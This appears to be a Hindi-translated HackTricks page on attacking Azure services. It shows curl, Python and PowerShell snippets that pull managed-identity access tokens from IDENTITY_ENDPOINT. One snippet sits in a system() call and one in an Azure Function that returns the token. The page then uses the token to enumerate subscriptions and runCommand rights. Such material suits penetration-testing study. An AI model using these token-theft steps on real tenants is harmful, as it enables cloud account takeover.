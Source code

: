 # Az - सेवाएं

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **हैकिंग ट्रिक्स साझा करें, PRs के माध्यम से** [**HackTricks**](https://github.com/carlospolop/hacktricks) **और** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github repos** में सबमिट करके।

</details>

## पोर्टल

आप **माइक्रोसॉफ्ट पोर्टलों की सूची** को [**https://msportals.io/**](https://msportals.io/) में पा सकते हैं

### रॉ रिक्वेस्ट

#### Powershell के माध्यम से एज़्यूर एपीआई

**IDENTITY\_HEADER** और **IDENTITY\_ENDPOINT** से **access\_token** प्राप्त करें: `system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');`.

फिर एज़्यूर REST API को क्वेरी करें और **subscription ID** और अधिक प्राप्त करें।
```powershell
$Token = 'eyJ0eX..'
$URI = 'https://management.azure.com/subscriptions?api-version=2020-01-01'
# $URI = 'https://graph.microsoft.com/v1.0/applications'
$RequestParams = @{
Method = 'GET'
Uri = $URI
Headers = @{
'Authorization' = "Bearer $Token"
}
}
(Invoke-RestMethod @RequestParams).value

# List resources and check for runCommand privileges
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resources?api-version=2020-10-01'
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/<RG-NAME>/providers/Microsoft.Compute/virtualMachines/<RESOURCE/providers/Microsoft.Authorization/permissions?apiversion=2015-07-01'
```
#### Azure API के माध्यम से Python संस्करण

```python
import requests

# Set the API endpoint URL
url = "https://api.azure.com/endpoint"

# Set the request headers
headers = {
    "Content-Type": "application/json",
    "Authorization": "Bearer <access_token>"
}

# Set the request payload
payload = {
    "param1": "value1",
    "param2": "value2"
}

# Send the POST request
response = requests.post(url, headers=headers, json=payload)

# Check the response status code
if response.status_code == 200:
    # Request successful
    print("Request successful")
    print(response.json())
else:
    # Request failed
    print("Request failed")
    print(response.text)
```

यहां आपको अपने Azure API के लिए Python संस्करण का उपयोग करना सिखाया जाएगा। आपको अपने API endpoint URL, अधिकार प्राप्त करने के लिए एक्सेस टोकन, और अन्य आवश्यक शीर्षकों और परिष्कृत डेटा के लिए अनुरोध पेलोड को सेट करना होगा। इसके बाद, आपको POST अनुरोध भेजना होगा और उत्तर को जांचना होगा। यदि अनुरोध सफल होता है, तो आपको "Request successful" और उत्तर को प्रिंट करना होगा। यदि अनुरोध विफल होता है, तो आपको "Request failed" और त्रुटि संदेश को प्रिंट करना होगा।
```python
IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
IDENTITY_HEADER = os.environ['IDENTITY_HEADER']

print("[+] Management API")
cmd = 'curl "%s?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
print("Access Token: "+json.loads(val)["access_token"])
print("ClientID/AccountID: "+json.loads(val)["client_id"])

print("\r\n[+] Graph API")
cmd = 'curl "%s?resource=https://graph.microsoft.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
print(json.loads(val)["access_token"])
print("ClientID/AccountID: "+json.loads(val)["client_id"])
```
या एक Python फ़ंक्शन के भीतर:
```python
import logging, os
import azure.functions as func

def main(req: func.HttpRequest) -> func.HttpResponse:
logging.info('Python HTTP trigger function processed a request.')
IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
IDENTITY_HEADER = os.environ['IDENTITY_HEADER']
cmd = 'curl "%s?resource=https://management.azure.com&apiversion=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
return func.HttpResponse(val, status_code=200)
```
## सेवाओं की सूची

* [**Azure AD**](az-azuread.md)
* [**एप्लिकेशन प्रॉक्सी**](az-application-proxy.md)
* [**Arm टेम्पलेट / डिप्लॉयमेंट**](az-arm-templates.md)
* [**ऑटोमेशन अकाउंट**](az-automation-account/)
* [**ऐप सेवा और फंक्शन ऐप्स**](az-azure-app-service.md)
* [**ब्लॉब स्टोरेज**](az-blob-storage.md)
* [**Intune**](../intune.md)
* [**Keyvault**](../keyvault.md)
* [**वर्चुअल मशीन**](../vms.md)

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण को देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एकल [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **अपने हैकिंग ट्रिक्स को** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके साझा करें।

</details>

